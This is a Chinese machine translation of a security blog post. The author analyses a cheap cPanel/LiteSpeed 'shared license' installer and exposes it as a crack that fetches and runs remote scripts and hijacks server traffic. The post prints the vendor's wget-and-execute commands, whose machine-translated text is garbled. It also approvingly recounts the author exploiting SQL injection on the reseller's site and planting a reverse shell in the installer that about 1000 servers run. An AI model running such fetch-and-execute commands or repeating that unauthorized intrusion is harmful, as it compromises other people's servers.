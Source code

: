 # 共享许可还是破解？访问 1000 多台服务器

> 原文：<https://infosecwriteups.com/shared-license-or-crack-access-to-1000-servers-2c4d97b9b22b?source=collection_archive---------1----------------------->

向所有读者致敬，

事实上，我想为我的主机服务器购买 Cpanel 和 LiteSpeed 许可证，所以我在谷歌上搜索，发现一些便宜的提供商说共享许可证。因为 Cpanel 只接受国际信用卡，而我没有，所以我在谷歌上搜索印度的信用卡提供商。

通常，这些软件计划起价约为 15-20 美元/月，但一些网站如 SKHOST、BALLIAHOST 和许多其他网站显示，同样的计划起价约为 3-5 美元。

![](img/4de9a74bc7e6a2bb6856ad5d857dfbc8.png)![](img/c834557f592b28bd60920279cb836241.png)

> 所以都说**共享许可没有破解完全安全**，我真的是购买许可的新手，所以我落入他们的陷阱，支付了两者。

![](img/24e8b6a3075530e5221c915320f8d4f5.png)

我支付了大约 15 美元，并检查了他们的客户区的许可证密钥。
它显示运行某种命令来激活产品

> rm -rf 安装程序
> rm -rf 设置
> wget license.skphost.net/litespeed/installer
> chmod+x 安装程序
> 。/installer
> skp host-LicenseLSWS

真的吗？

所以他们想让我为产品安装一些第三方脚本。

所以基本上我是在为一些不知名的脚本付费，这些脚本的责任既不在 Cpanel，也不在卖家；_;我想为什么不检查他们想要我运行的脚本，所以我启动了 gdb 来检查那些文件。

![](img/e37ff220ecd3ac74d173abd69b85aa32.png)

有一个系统函数被调用，在设置一个断点后，我们可以检查寄存器的值。

> RM-RF/root/setup；CD/root；wget[http://litespeed.resellercenter.ir/litespeedv1/setup](http://litespeed.resellercenter.ir/litespeedv1/setup)/dev/null 2>1；chmod+x setup
> PHP/root/setup

所以这个脚本从另一个服务器获取一些 PHP 文件。

![](img/964957be086e4840475a3d2d078674cf.png)

整个脚本受 Source Guardian 保护。根据 Source guardian 网站的说法，“我们的 PHP 编码器通过将 PHP 源代码编译成二进制字节码格式来保护您的 PHP 代码，然后补充一个加密层。”
所以我们无法从内存中获得正确的源代码，但我在媒体上找到了一篇由 [Chris Lyne](https://medium.com/u/f73d48b47782?source=post_page-----2c4d97b9b22b--------------------------------) 撰写的精彩文章。

> [https://medium . com/tenable-tech blog/dumping-PHP-opcodes-protected-by-source guardian-a0acd 8058038](https://medium.com/tenable-techblog/dumping-php-opcodes-protected-by-sourceguardian-a0acd8058038)

我使用了 Chris Lyne 的技巧从文件中转储 PHP 操作码。

![](img/161ee7deb9adb19fbfeffc41fe1734c8.png)

咔呜！！无红利(ex-dividend)

这个脚本安装 Proxychains、LiteSpeed，并获取更多的文件。
除了他们的文件，还有一行引起了我的注意

> CD/usr/src；RM-RF lsws _ whm _ auto installer . sh；wget[https://www . litespeedtech . com/packages/cpanel/lsws _ whm _ auto installer . sh](https://www.litespeedtech.com/packages/cpanel/lsws_whm_autoinstaller.sh)；chmod a+x lsws _ whm _ auto installer . sh；。/lsws_whm_autoinstaller.sh 试用 1 0 admin WFI 9 fqh xxxxxxxxxxxx root @ localhost 1 1 '

因此，运行安装 lsw 脚本的服务器将使用相同的 LiteSpeed web 控制台证书进行安装。

让我们再次分析这里得到的外部文件。

> http://litespeed.resellercenter.ir/litespeedv1/RcLicense[LSWS](http://litespeed.resellercenter.ir/litespeedv1/RcLicense_lsws)
> 
> root @ IP:/tmp/litespeed # file RcLicenseLSWS
> RcLicenseLSWS:ELF 64 位 LSB 可执行文件，x86–64，版本 1 (SYSV)，动态链接，解释器/lib 64/LD-Linux-x86–64 . so . 2，对于 GNU/Linux 2.6.32，BuildID[sha1]= 1d 86 ee 60 CBF 26237 Bab 45 e 92 bb 19 e 5 da c19 BD 9 a 3，未剥离
> root @ IP:/

![](img/bc98f01533128099ab500f786d23cf78.png)

再次是获取其他文件的系统函数；-;

> wget -O /usr/bin/。r license _ lsws[https://litespeed . resellercenter . IR/litespeed v2/seRcLicense _ lsws](https://litespeed.resellercenter.ir/litespeedv2/seRcLicense_lsws)/dev/null 2>&1
> OpenSSL AES-256-CBC-in/usr/bin/。r license _ lsws-out/usr/local/。vmfilsws-d-pass pass:xxxxxxxxxxxx
> PHP/usr/local/。vmfilsws
> comp 0-I/usr/local/。vmfilsws>/dev/null 2>1
> umount/usr/local/。vmfilsws>/dev/null 2>&1
> RM-RF/usr/local/。vmfilsws>/dev/null 2>&1
> RM-RF/usr/bin/。r license _ lsws>/dev/null 2>&1

这个 seRcLicense 是由 OpenSSL 编码的，但是等等，当密码在二进制文件本身中时有什么意义呢😆

因此，解码后，它又是一个用 Source Guardian 编码的 PHP 文件，但我们可以像前面一样转储操作码。

![](img/704b6d11e77d51b3eed9116335bb8948.png)

检查后，不难理解他们如何阻止 LiteSpeed 服务器的所有流量，并将它们重定向到自己的服务器，并用 socks one 替换许可证。

**反正这些二进制文件和 PHP 文件已经够多了。**

让我们直接来到服务器访问头奖部分😈

![](img/c7bc61bb0281a36d0e700c39956bec13.png)

我想我从印度卖家那里购买了这个许可证，他们从伊朗网站上转售这些，所以我运行了一些子域名和 waybackurls 的工具，得到了一些有趣的链接。

![](img/3603b4439331dd666d7ea6428c9aa5a4.png)

检查了几个链接后，我发现其中一些容易受到 SQLI 的攻击。

![](img/b0a4a2d403ec95ae21f1e7568c11a0e0.png)

一张表中有 900 多个活动 IP

我查了 verify.cpanel 上的 IPs。他们都没有一个有效的工作计划。

要么已过期，要么正在运行 15 天的试用期。

还记得用于配置的脚本中 Litespeed 的密码吗？
我尝试从数据库中随机命中 IP，并尝试登录

![](img/abf03b66191416aa8518efbf5e1d5859.png)

但这不是我们感兴趣的，所以我尝试使用从链接中找到的凭证。瞧，它起作用了，在进入他们的网站后，我能够看到他们所有的数据和文件。

检查他们的数据库，有 9K+的 IP，超过 1000 活跃。

基本上，他们在运行一个完整的 whmcs 来销售这些脚本，这些脚本在购买时从用户那里获取一个 IP(让他们相信他们的 IP 正在获得许可授权)。
为了转售，他们制作了一个门户和 wchms 插件，为用户提供脚本。
我只是在他们的一个安装程序脚本中放了一个反向 shell，然后嘣

![](img/29d2783cbd4f891678b79794de9b9335.png)![](img/b6078b49fea328d2d62c0baa8ea1435f.png)

因为我可以修改或添加任何我想要的东西，而获取这些文件的服务器会盲目地运行它。

嗯，这只是从一个单一的供应商，但如果你谷歌购买便宜的 Cpanel，Whcms，LiteSpeed 等软件或共享许可证，你会发现数以千计的网站出售这些类型的廉价破解。以销售共享许可的名义，他们强迫你安装他们自己的脚本。总之，我白白浪费了大约 15 美元，后来不得不再次从主网站上购买许可证。

结论——永远不要相信互联网上的廉价替代品，停止使用破解/无效软件。